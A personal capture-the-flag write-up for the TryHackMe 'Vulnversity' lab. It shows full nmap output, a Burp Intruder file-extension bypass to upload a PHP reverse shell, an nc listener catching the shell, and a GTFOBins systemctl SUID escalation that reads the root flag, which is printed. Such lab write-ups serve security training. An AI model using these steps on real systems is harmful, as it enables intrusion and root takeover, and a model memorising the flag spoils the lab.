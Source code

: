 #suid

### Vulnversity - Tryhackme - Getting Root flag only

- Initial Recon
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -T4 10.10.160.7                           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 05:43 EDT
Nmap scan report for 10.10.160.7
Host is up (0.27s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a4ffcb8c8761cb5851cacb286411c5a (RSA)
|   256 ac9dec44610c28850088e968e9d0cb3d (ECDSA)
|_  256 3050cb705a865722cb52d93634dca558 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/18%OT=21%CT=1%CU=42338%PV=Y%DS=2%DC=T%G=Y%TM=64DF3D9
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M509ST11NW6%O2=M509ST11NW6%O
OS:3=M509NNT11NW6%O4=M509ST11NW6%O5=M509ST11NW6%O6=M509ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-18T09:44:47
|_  start_date: N/A
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-08-18T05:44:46-04:00

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   288.75 ms 10.18.0.1
2   292.44 ms 10.10.160.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.83 seconds

~~~

- Gobuster on port 3333 - Found /internal directory have file upload page. 
- Upload shell.php file - Unsuccessful result. 
- Use burpsuite #burpsuite to find out which php version is accepted - Intercept the traffic - forward to the intruder - in position clear $ and add $ on upload file extension - in payload seetings remove current settings and add 'php3, phtml, php4, php5, php6' - in setting, Grep - Match add 'Extension not allowed' obtained from the repeater, in redirection select 'always' - Start the attack. 
![[Pasted image 20230818185424.png]]
- Phtml extension can be uploaded, change shell.php extension to phtml, upload it, check on /uploads page, start listener and open uploaded file. Reverse shell obtained. If connection get lost then disable firewall with 'sudo ufw disable' #firewall 
~~~bash
──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.4.132] from (UNKNOWN) [10.10.160.7] 33220
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:43:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

- Find the SUID permission files
~~~bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
~~~

- Find out systemctl have the SUID privilege escalation in GTFObins. Copied code and change it as per needed. 

```
# Before 
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
```
# After
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

- Run command one by one, obtained root. 
~~~bash
$ sudo install -m =xs $(which systemctl) .
sudo: no tty present and no askpass program specified
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
$ 
~~~

- Rooted Machine